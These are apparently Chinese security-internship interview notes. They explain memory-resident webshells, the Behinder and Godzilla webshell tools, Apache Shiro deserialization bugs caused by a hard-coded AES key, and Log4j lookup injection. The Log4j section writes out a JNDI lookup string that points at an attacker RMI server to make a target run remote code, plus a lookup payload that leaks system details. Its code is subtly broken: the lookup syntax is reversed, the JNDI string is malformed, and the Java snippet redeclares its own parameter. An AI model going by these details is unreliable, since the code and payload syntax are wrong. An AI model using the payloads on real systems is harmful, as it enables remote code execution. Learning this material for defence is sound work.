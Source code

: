 **内存马的原理就是在web组件或者应用程序中，注册一层访问路由，访问者通过这层路由，来执行我们控制器中的代码**

## Q：冰蝎、哥斯拉这些工具有没有了解过（待完成）

>   [哥斯拉使用](https://blog.csdn.net/qq_39997096/article/details/111168949)

冰蝎&特斯拉流量分析

## Q：说一下shiro反序列化的形成原因、利用链

> [shiro反序列化漏洞成因分析](http://wh1sper.com/shiro%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E6%88%90%E5%9B%A0%E5%88%86%E6%9E%90/)

目前有两个shiro反序列化的洞

- shiro-550(apache shiro<1.2.4)，
  - 使用已知秘钥撞
- shiro-721(apache shiro<1.4.2)
  - 使用登录后rememberMe={value}去爆破正确的key值进而反序列化


Apache Shiro < 1.4.2默认使用AES/CBC/PKCS5Padding模式
Apache Shiro >= 1.4.2默认使用AES/GCM/PKCS5Padding模式

### Shiro550

> 产生原因是因为shiro接受了Cookie里面rememberMe的值，然后去进行Base64解密后，再使用aes密钥解密后的数据，进行反序列化。
> 这个aes密钥是硬编码（简称写死），也就是他密钥是写死在jar包里面的，众所周知AES 是对称加密，即加密密钥也同样是解密密钥，那如果我们能知道了这个密钥就可以伪造恶意cookie



# 0x04 字节跳动-安全研究实习生

## Q：这两天log4j漏洞很火，有没有去了解一下

### log4j

比如登陆界面：

```java
public void login(string name){
  String name = "test";  //表单接收name字段
  logger.info("{},登录了", name); //logger为log4j
}
```

如果name为` {$java:os}`,那么logger会直接将系统信息带出来。

形成原因是log4j提供了一个lookup的功能。

还要说道jndi，`jndi:rmi:192.168.9.23:1099/remote`，如果被攻击的服务器，比如某台线上的服务器，访问了或者执行了，你自己的JNDI服务，**那么线上的服务器就会来执行JNDI服务中的remote方法的代码**



# 0x4 一面plus-安全研发实习生
